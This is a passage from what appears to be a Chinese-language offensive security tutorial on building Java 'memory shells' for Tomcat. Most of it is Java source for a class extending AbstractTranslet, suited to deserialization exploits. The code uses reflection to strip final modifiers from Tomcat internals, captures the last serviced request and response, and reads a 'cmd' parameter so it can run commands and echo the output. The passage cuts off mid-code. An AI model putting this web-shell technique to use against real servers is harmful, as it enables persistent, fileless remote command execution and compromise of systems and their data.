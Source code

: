 测试：

![servlet JAVA内存马](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraservlet%20JAVA%E5%86%85%E5%AD%98%E9%A9%AC.gif)

可以写servlet，那其他的jsp马，如Tomcat下valve、Listener、Filter都可以用上面的方法1，2改成java马使用



## Tomcat直接写Response 1（Tomcat半通用）

写到这里，你是否在想，通用到底是什么意思？

其实上面方法2写servlet内存马的部分都多余了，因为已经获取到了response，可以直接写回显内容，完全不需要多此一举去获取StandardContext写servlet、Filter等内存马。

通用的意思其实就是指：不用考虑servlet是否被占用，不用考虑Filter优先级低插入到后面了没应用上怎么办。因为根本就不用去注册组件进Tomcat

```java
package org.example.tomcatmemshell.servlet;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Response;
import org.apache.catalina.connector.ResponseFacade;
import org.apache.catalina.core.ApplicationFilterChain;

import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.Scanner;

public class GenericTomcatMemShell extends AbstractTranslet {
    static {
        try{
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");//以下几行为反射修改private static final变量的流程
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
            Field modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
            modifiersField.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
            modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
            WRAP_SAME_OBJECT_FIELD.setAccessible(true);
            lastServicedRequestField.setAccessible(true);
            lastServicedResponseField.setAccessible(true);

            ThreadLocal<ServletResponse> lastServicedResponse =
                    (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);//获取实例
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);//同上
            boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);//同上
            String cmd = lastServicedRequest != null
                    ? lastServicedRequest.get().getParameter("cmd")
                    : null;//获取cmd参数的值
```